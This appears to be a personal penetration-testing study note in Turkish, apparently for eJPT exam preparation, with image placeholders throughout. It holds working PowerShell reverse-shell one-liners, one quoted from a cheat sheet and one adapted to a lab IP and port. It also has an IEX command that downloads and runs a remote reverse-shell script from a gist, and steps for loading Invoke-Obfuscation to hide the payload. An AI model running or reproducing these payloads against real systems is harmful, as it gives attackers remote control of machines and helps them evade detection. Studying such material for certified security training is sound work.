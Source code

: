 https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell

#payloads-all-the-things

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Biz Bunu Kullanacağız
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.2.4',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


```


```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```


---
## git cole ile aldığımız repo'yu eJPT içine obfuscation olarak kaydettim.


![[Pasted image 20240404235338.png]]
### Kali'den Powershell'i açtım ve buradan eJPT klasörü obfuscationa gittim

![[Pasted image 20240404235520.png]]

![[Pasted image 20240404235630.png]]
![[Pasted image 20240404235708.png]]
### Import-Module ./Invoke-Obfuscation.psd1

## Burası önemli bir step back yapıyoruz cd ..  ile

## PS> Invoke-Obfuscation
![[Pasted image 20240404235858.png]]
